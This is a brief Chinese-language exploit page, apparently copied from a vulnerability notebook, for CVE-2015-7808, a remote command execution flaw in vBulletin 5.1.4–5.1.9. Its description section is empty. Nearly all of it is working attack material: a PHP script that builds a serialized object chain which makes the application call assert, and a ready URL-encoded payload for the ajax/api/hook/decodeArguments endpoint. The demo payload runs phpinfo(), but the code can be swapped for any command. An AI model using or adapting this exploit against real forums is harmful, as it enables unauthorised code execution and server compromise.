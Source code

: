 # （CVE-2015-7808）远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/vBulletin/CVE-2015-7808.html](http://book.iwonder.run/0day/vBulletin/CVE-2015-7808.html)

## 一、漏洞简介

## 二、漏洞影响

VBulletin VBulletin 5.1.4 - 5.1.9

## 三、复现过程

```
$ php << 'eof'
 <?php
 class vB_Database_MySQL{
        public $functions = array();

        public function __construct() 
        {
                $this->functions['free_result'] = 'assert';
        }
 }

 class vB_dB_Result {
        protected $db;
        protected $recordset;

        public function __construct()
        {
                $this->db = new vB_Database_MySQL();
                $this->recordset = "phpinfo()";
        }
 }

 print urlencode(serialize(new vB_dB_Result())) . "n";
 eof 
```

```
http://0-sec.org/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D 
```

![image](img/0806c8c57fd38b2400bcc3fb4834779d.png)

